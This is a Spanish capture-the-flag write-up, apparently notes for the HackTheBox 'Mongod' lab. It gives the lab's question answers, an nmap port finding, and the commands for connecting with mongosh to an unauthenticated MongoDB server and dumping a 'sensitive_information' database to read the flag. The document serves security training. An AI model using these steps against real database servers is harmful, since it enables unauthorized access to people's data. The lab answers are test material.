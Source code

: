 Vamos a ver [[mongodb]] en esta maquina

1)¿Cuántos puertos TCP están abiertos en la máquina?
	2

2)¿Qué servicio se ejecuta en el puerto 27017 del host remoto?
	MongoDB 3.6.8

3)¿Qué tipo de base de datos es MongoDB? (Elija: SQL o NoSQL)
	NoSQL

4)¿Cuál es el nombre del comando para el shell de Mongo que se instala con el paquete mongodb-clients?
	mongosh

5)¿Cuál es el comando utilizado para listar todas las bases de datos presentes en el servidor MongoDB? (No es necesario incluir un ; al final)
	show dbs

6)¿Cuál es el comando utilizado para listar las colecciones de una base de datos? (No es necesario incluir un ; al final)
	show collections
	En MongoDB, una **colección** es como una **tabla en SQL**, pero más flexible.  
	Contiene **documentos** (que serían como filas), pero **no requieren un esquema fijo**.
	Por ejemplo, en una base de datos de usuarios, podrías tener una colección llamada `usuarios` que guarda todos los perfiles en forma de documentos JSON.

7)¿Cuál es el comando utilizado para volcar el contenido de todos los documentos de la colección denominada flag en un formato fácil de leer?
	db.flag.find().pretty()


---------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

![[Mongod1.png]]

![[Mongod2.png]]

Por el ttl la maquina es linux, y que esta abierto el puerto 22 ssh y el 27017 que es de mongodb

# Intrusion por [[mongodb]]

Descargamos el binario para ejecutar mongodb
```shell
curl -O https://downloads.mongodb.com/compass/mongosh-2.3.2-linux-x64.tgz
tar xvf mongosh-2.3.2-linux-x64.tgz
cd mongosh-2.3.2-linux-x64/bin
./mongosh mongodb://10.129.228.30:27017
```
Usando el binario de mongodb. Ganamos acceso a la maquina
![[Mongod3.png]]

Una vez dentro, vamos a usar estos comandos para manejarnos por la base de datos, y a posteriori visualizamos la flag
```mongodb
show dbs
use sensitive_information
show colletions
db.flag.find().pretty()
```
![[Mongod4.png]]

# Notas
Una base de datos es sql, cuando tiene el modelo tradicional de bases de datos que son tablas,columnas,filas,etc. Y cuando no tiene esto es una base de datos NOSQL


# Creditos
Writeup Oficial HackTheBox